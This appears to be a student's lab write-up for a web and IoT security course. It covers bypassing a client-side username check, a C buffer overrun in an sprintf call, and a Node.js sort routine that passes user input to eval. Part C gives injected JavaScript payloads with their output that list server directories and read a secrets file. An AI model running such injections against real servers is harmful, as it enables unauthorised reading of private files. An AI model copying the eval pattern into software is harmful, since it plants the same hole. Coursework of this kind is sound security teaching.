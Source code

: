 # Assignment 3 - More Web and IoT Insecurity
## Part A. Bypassing client-side checks
Using Google Chrome developer tools:

1) Add `tikinmusta` to the drop-down menu and then select it.

2) Remove the `EventHandler` that checks the username length condition. Now you should be able to submit new username that is over 21 characters long such as `testingover20characterslong`.


## Part B. Buffer overrun

```c
#define KEYLEN 20
#define MAXCMDLEN 18
#define MAXUSERLEN 10
#define CLIENTCMDTAG "ClientCmd"
#define MAXHMACINPUTLEN (sizeof(CLIENTCMDTAG) + 1 + MAXCMDLEN + 1 + MAXUSERLEN) /* =40 */
```

```c
char keyphrase[KEYLEN + 1] = {0};  // KEYLEN=20
char hmac_input[MAXHMACINPUTLEN + 1] = {0};  // MAXHMACINPUTLEN=40
```

```c
sprintf(hmac_input, "%s|%s|%s", CLIENTCMDTAG, user_rec, command_rec);
```
- `hmac_input` 41 bytes allocated
- `CLIENTCMDTAG` is 9 characters long
- `user_rec` is 6 characters long
- Two vertical bars `|` take 2 characters


## Part C. Server-side poisoning
```js
// ...
// Plants that will be returned to the client
var retPlants = [];
bookshelf.knex.raw(sql_query).then(function(plants){
    plants.forEach(function(p){
        retPlants.push({
            ’name’:p.name,
            ’color’:p.color,
            ’planttype’:p.planttype,
            ’potsize’:p.potsize
        });
    });
    // Field name from drop - down selection
    var field = req.body.sort_field;
    // Sort the plants
    retPlants.sort(function(a,b){
        var av,bv;
        with (a) { av = eval(field); };
        with (b) { bv = eval(field); };
        return av >= bv ;
    });
    // ...
});
```

Inject javascript into the `sort by` field by adding options using developer tools. [@server_side_js_injection]

1) List the contents of the current directory:

    ```js
    res.end(require('fs').readdirSync('.').toString())
    ```
    ```txt
    .gitignore,__init__.py,config,models,node_modules,package-lock.json,
    package.json,potplant.db,public,routes,secrets,server.js,utils,views
    ```

2) List the contents of the `secrets` directory:

    ```js
    res.end(require('fs').readdirSync('secrets').toString())
    ```
    ```txt
    secretmessage_3096.txt
    ```

3) View the actual content of the `secrets/secretmessage_3096.txt` file:

    ```js
    res.end(require('fs').readFileSync('secrets/secretmessage_3096.txt'))
    ```
    ```txt
    Instructions from boss: code ecc35a2dbf4a0e06 for agent 452056.
    ```

## References
